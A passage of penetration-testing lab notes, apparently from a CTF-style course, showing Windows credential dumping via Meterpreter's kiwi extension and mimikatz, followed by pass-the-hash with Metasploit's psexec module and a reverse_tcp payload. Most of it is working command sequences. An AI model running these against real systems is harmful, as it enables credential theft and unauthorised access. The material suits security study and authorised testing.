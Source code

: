 **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for initial access to the victim, we exploited the Badblue vuln.

meterpreter > sysinfo
meterpreter > getuid 
meterpreter > pgrep lsass # search for the lsass process, we migrate to the process.
meterpreter > sysinfo

# method 1
meterpreter > load kiwi # Load the Kiwi extension.
meterpreter > help # we can see the kiwi help menu.
meterpreter > creds_all # Retrieve all possible creds.
meterpreter > lsa_dump_sam #Dump all NTLM hashes
meterpreter > lsa_dump_secrets # Dump secrets like the Syskey which is the flag in this case.

# method 2
# transfering the mimikatz binaries from kali to the victim system.
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe #Upload the mimikatz binary onto the target system
shell
C:\> .\mimikatz.exe
C:\> pricilege::debug # when we get the '20' OK, we are good to go.
C:\> sekurlsa::logonpasswords # dumps logon passwords.
C:\> lsadump::sam #Dump the SAM database
```
{% endcode %}



## <mark style="color:red;">Pass-The-Hash With PSExec</mark>

**Pass-The-Hash**

* Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
* We can use the PsExec module to legitimately authenticate with the target system via SMB.
* This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for initial access, we used the Badblue exploit enterprise edition.

meterpreter > sysinfo
meterpreter > getuid
meterpreter > pgrep lsass
meterpreter > migrate <lsas PID>
meterpreter > getuid # we have NT AUTHORITY.

# Use the command hashdump and save all of the hashes in a file
meterpreter > hashdump # copy and save to a file.

# we can use the hash for the Administrator user, to authenticate using the 
#'psexec' module.
meterpreter > use exploit/windows/smb/psexec #Use the hash as SMBPass and it's correspondant username as SMBUser
meterpreter > set payload windows/x64/meterpreter/reverse_tcp # because victim is using a 64bit system.
meterpreter > set SMBUser Administrator
meterpreter > set SMBPass <NT:NTLM hash> # without the colons (::).
```